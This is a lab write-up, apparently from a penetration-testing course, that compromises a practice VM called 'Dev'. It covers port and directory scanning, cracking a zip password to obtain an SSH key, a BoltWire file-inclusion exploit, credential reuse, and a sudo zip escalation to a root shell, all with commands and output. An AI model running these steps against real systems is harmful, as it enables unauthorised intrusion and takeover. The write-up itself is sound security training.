

# Dev

## Network Reconnaissance

### arp-scan and netdiscover

"Discover" the IP of the victim machine on our network (...and double-check by
logging in to the VM with `root:tcm`).

`arp-scan` and `netdiscover` deliver the same results with arp-scan being much
faster than netdiscover.

```
┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:b4:a1:05, IPv4: 10.0.2.5
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.0.2.1        52:54:00:12:35:00       QEMU
10.0.2.2        52:54:00:12:35:00       QEMU
10.0.2.3        08:00:27:3d:6e:f1       PCS Systemtechnik GmbH
10.0.2.7        08:00:27:6c:58:87       PCS Systemtechnik GmbH
10.0.2.8        08:00:27:6c:58:87       PCS Systemtechnik GmbH

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.255 seconds (113.53 hosts/sec). 5 responded

```

**The victim machine actually has two IPs, `10.0.2.7` and `10.0.2.8`.**


## nmap

```
┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ cat Dev_nmap7.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-18 16:44 EDT
Nmap scan report for 10.0.2.7
Host is up (0.00013s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
8080/tcp  open  http-proxy
36309/tcp open  unknown
40949/tcp open  unknown
51771/tcp open  unknown
52379/tcp open  unknown
MAC Address: 08:00:27:6C:58:87 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.10 seconds
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-18 16:46 EDT
Nmap scan report for 10.0.2.7
Host is up (0.00051s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      44871/udp   mountd
|   100005  1,2,3      47911/tcp6  mountd
|   100005  1,2,3      47956/udp6  mountd
|   100005  1,2,3      52379/tcp   mountd
|   100021  1,3,4      36272/udp6  nlockmgr
|   100021  1,3,4      36295/tcp6  nlockmgr
|   100021  1,3,4      36309/tcp   nlockmgr
|   100021  1,3,4      38438/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
36309/tcp open  nlockmgr 1-4 (RPC #100021)
40949/tcp open  mountd   1-3 (RPC #100005)
51771/tcp open  mountd   1-3 (RPC #100005)
52379/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 08:00:27:6C:58:87 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.51 ms 10.0.2.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```


### Open ports:

* 22, SSH, **OpenSSH 7.9p1 Debian 10**+deb10u2 (protocol 2.0)
* 80, HTTP, **Apache httpd 2.4.38** (Debian), Title: **"Bolt - Installation Error"**
* 111, rpcbind -- long *rpcinfo* list that I do not understand
* 2049, **NFS = *Network File Share*, similar to SMB**, (RPC #100003)
* 8080, HTTP-Proxy, Title: **"PHP 7.3.27-1~deb10u1 - phpinfo()"**, potentially **open proxy**
* 36309, nlockmgr (RPC #100021)
* 40949, mountd (RPC #100005)
* 51771, mountd (RPC #100005)
* 52379, mountd (RPC #100005)

**Operating system details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)**


## HTTP / HTTP-proxy, Ports 80 & 8080

#### Port 80

**Gobuster** scan results (quiet mode), sorted by HTTP response code (200: ok,
301: moved permanently, 403: forbidden), duplicates removed:

**Level 0**

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.0.2.7:80/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 100 -x txt,php,js --no-error -q
/index.php            (Status: 200) [Size: 3833]
/public               (Status: 301) [Size: 305] [--> http://10.0.2.7/public/]
/src                  (Status: 301) [Size: 302] [--> http://10.0.2.7/src/]
/app                  (Status: 301) [Size: 302] [--> http://10.0.2.7/app/]
/vendor               (Status: 301) [Size: 305] [--> http://10.0.2.7/vendor/]
/extensions           (Status: 301) [Size: 309] [--> http://10.0.2.7/extensions/]
/.php                 (Status: 403) [Size: 273]
/server-status        (Status: 403) [Size: 273]
```

**Level 1**

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.0.2.7:80/public/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 100 -x txt,php,js --no-error -q
/files                (Status: 301) [Size: 311] [--> http://10.0.2.7/public/files/]
/thumbs               (Status: 301) [Size: 312] [--> http://10.0.2.7/public/thumbs/]
/theme                (Status: 301) [Size: 311] [--> http://10.0.2.7/public/theme/]
/extensions           (Status: 301) [Size: 316] [--> http://10.0.2.7/public/extensions/]
/index.php            (Status: 302) [Size: 372] [--> /public/index.php/bolt/userfirst]
/.php                 (Status: 403) [Size: 273]
```

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.0.2.7:80/src/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 100 -x txt,php,js --no-error -q
```
Found nothing valuable, double-checked manually.

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.0.2.7:80/app/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 100 -x txt,php,js --no-error -q
/nut                  (Status: 200) [Size: 633]
/database             (Status: 301) [Size: 311] [--> http://10.0.2.7/app/database/]
/cache                (Status: 301) [Size: 308] [--> http://10.0.2.7/app/cache/]
/config               (Status: 301) [Size: 309] [--> http://10.0.2.7/app/config/]
/.php                 (Status: 403) [Size: 273]
```

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.0.2.7:80/vendor/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 100 -x txt,php,js --no-error -q
/bin                  (Status: 301) [Size: 309] [--> http://10.0.2.7/vendor/bin/]
/league               (Status: 301) [Size: 312] [--> http://10.0.2.7/vendor/league/]
/composer             (Status: 301) [Size: 314] [--> http://10.0.2.7/vendor/composer/]
/embed                (Status: 301) [Size: 311] [--> http://10.0.2.7/vendor/embed/]
/doctrine             (Status: 301) [Size: 314] [--> http://10.0.2.7/vendor/doctrine/]
/imagine              (Status: 301) [Size: 313] [--> http://10.0.2.7/vendor/imagine/]
/bolt                 (Status: 301) [Size: 310] [--> http://10.0.2.7/vendor/bolt/]
/twig                 (Status: 301) [Size: 310] [--> http://10.0.2.7/vendor/twig/]
/.php                 (Status: 403) [Size: 273]

```

**Gobuster has missed a lot of directories!!** It has found 8, but there are
actually 33 plus one file: `autoload.php`. This is certainly a problem of the
chosen wordlist. The php file was not found because one needs to put a "." in
front of the file extension. (Test: "." did not help either.)



```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.0.2.7:80/extensions/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 100 -x txt,php,js --no-error -q
```
Found nothing valuable, double-checked manually.

**Level 2**


Error page gives access to cookies.

(... to be continued ...)


**Manual exploration:**


The same default credentials can also be found in the file `/app/config/config.yml`:

```
# Database setup. The driver can be either 'sqlite', 'mysql' or 'postgres'.
#
# For SQLite, only the databasename is required. However, MySQL and PostgreSQL
# also require 'username', 'password', and optionally 'host' ( and 'port' ) if the database
# server is not on the same host as the web server.
#
# If you're trying out Bolt, just keep it set to SQLite for now.
database:
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java

# The name of the website
sitename: A sample site
payoff: The amazing payoff goes here

(--- snip ---)

```


#### Port 8080

**Level 0**

```
┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ gobuster dir -u http://10.0.2.7:8080/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -x .txt, .php, .js --no-error -q 
/.                    (Status: 200) [Size: 94437]
/dev                  (Status: 301) [Size: 309] [--> http://10.0.2.7:8080/dev/]
/server-status        (Status: 403) [Size: 275]
```

**Level 1**

```
┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ gobuster dir -u http://10.0.2.7:8080/dev/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -x .txt, .php, .js --no-error -q
/.                    (Status: 200) [Size: 7587]
/files                (Status: 301) [Size: 315] [--> http://10.0.2.7:8080/dev/files/]
/pages                (Status: 301) [Size: 315] [--> http://10.0.2.7:8080/dev/pages/]
/forms                (Status: 301) [Size: 315] [--> http://10.0.2.7:8080/dev/forms/]
/config               (Status: 301) [Size: 316] [--> http://10.0.2.7:8080/dev/config/]
/stamps               (Status: 301) [Size: 316] [--> http://10.0.2.7:8080/dev/stamps/]
```

Manual exploration: Besides a lot of information about the PHP configuration and
other system configurations (Debian 4.19.181-1), etc. only found data in `/pages`
and `/forms`. 


Found two clear text login credentials to Bolt CRM system:


Trying the credentials `admin:I_love_java` gives us an admin login on the website:


In contrast, using the other credential set `thisisatest:thisisatest` I could
not log in at all.


Trying to upload a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell)
by creation of a new blog entry:


In a second attempt, I added .html to the page name `reverseshell` and enclosed
the PHP code in

```
<HTML>
<BODY>

    (... PHP code...)

</BODY>
</HTML>
```

The HTML page is save under `10.0.2.7:8080/dev/pages/reverseshell.html`, but I
did not get a reverse shell. The PHP code is not executed.


## Network File Share (NFS, port 2049)

Check with the built-in Linux command `showmount` whether there is a network
files share on our victim machine:


```
NAME
       showmount - show mount information for an NFS server

SYNOPSIS
       showmount [ -adehv ] [ --all ] [ --directories ] [ --exports ] [ --help ] [ --version ] [ host ]

DESCRIPTION
       showmount  queries  the  mount daemon on a remote host for information about the state of the NFS server on
       that machine.  With no options showmount lists the set of clients who are mounting  from  that  host.   The
       output from showmount is designed to appear as though it were processed through ``sort -u''.

OPTIONS

(--- snip ---)

       -e or --exports
              Show the NFS server's export list.
(--- snip ---)
```


```
┌──(kali㉿kali)-[~]
└─$ showmount -e 10.0.2.7
Export list for 10.0.2.7:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16

┌──(kali㉿kali)-[~]
└─$ sudo mkdir /mnt/dev

┌──(kali㉿kali)-[~]
└─$ sudo mount -t nfs 10.0.2.7:/srv/nfs /mnt/dev

┌──(kali㉿kali)-[~]
└─$ ls /mnt/dev
save.zip

┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ cp /mnt/dev/save.zip .

┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ unzip save.zip            
Archive:  save.zip
[save.zip] id_rsa password: 
password incorrect--reenter: 
password incorrect--reenter: 
   skipping: id_rsa                  incorrect password
[save.zip] todo.txt password: 

┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ sudo apt install fcrackzip 
(...)

┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip 
found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)


PASSWORD FOUND!!!!: pw == java101

┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ cat todo.txt                     
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp

┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ file id_rsa
id_rsa: OpenSSH private key

┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ sudo ssh -i id_rsa jp@10.0.2.7                 
The authenticity of host '10.0.2.7 (10.0.2.7)' can't be established.
ED25519 key fingerprint is SHA256:NHMY4yX3pvvY0+B19v9tKZ+FdH9JOewJJKnKy2B0tW8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.7' (ED25519) to the list of known hosts.
jp@10.0.2.7's password: 
Permission denied, please try again.
jp@10.0.2.7's password:
(...)
```

### Manual Search for Exploits

Googling for `boltwire exploit` leads us to an [Exploit DB](https://www.exploit-db.com/exploits/48411)  
page where **Local File Inclusion (LFI)** is given as a vulnerability up to
version 6.03. (Alternative: `searchsploit boltwire` on our local machine)


The exploit will only work for an authenticated user. We can either log in as
`admin` as above or create a new user via `Register`. We then copy a part of
the link that is given in the exploit description into our URL to see if we can
get access to the `/etc/passwd` file. If that works, we can even try to steal
the password hashes via access to the `/etc/shadow` file (...it does not work!).


However, we can see from the list of users that there is one user called
`jeanpaul`, which may be the one who signed `note.txt` with `jp` and to whom the
private SSH key `id_rsa` belongs. So we try logging in via SSH again, this time
as `jeanpaul`. We still need to guess a password. One of the passwords that we
have found along the way was `I_love_java`. These credentials give us a login as
`jeanpaul`, but first the private key permissions had to be changed from `644`
(too open) to `700`.


```
┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ chmod 700 id_rsa

┌──(kali㉿kali)-[~/Capstone/Dev]
└─$ ssh -i id_rsa jeanpaul@10.0.2.7
Enter passphrase for key 'id_rsa':
Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jun 22 18:15:45 2025 from 10.0.2.5
jeanpaul@dev:~$ history
    1  echo "" > .bash_history
    2  sudo -l
    3  exit
    4  sudo -l
    5  exit
    6  history
jeanpaul@dev:~$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
jeanpaul@dev:~$
```


The output of `sudo -l` tells us that jeanpaul can run `sudo zip` without a
password, but with root access rights. In the final step, we have to find a way
to turn this into a root shell. TCM uses a website [GTFOBins](https://gtfobins.github.io/)
to find a solution quickly.


We can now copy the hint line by line into `jeanpaul`'s command line to get root
access. We hold back the 3rd line `sudo rm $TF` until we have logged out as
root.


```
jeanpaul@dev:~$ TF=$(mktemp -u)
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
#
```


**Mission accomplished.**


<!--
span style="color:green;font-weight:700;font-size:20px">
markdown color font styles
</span
-->
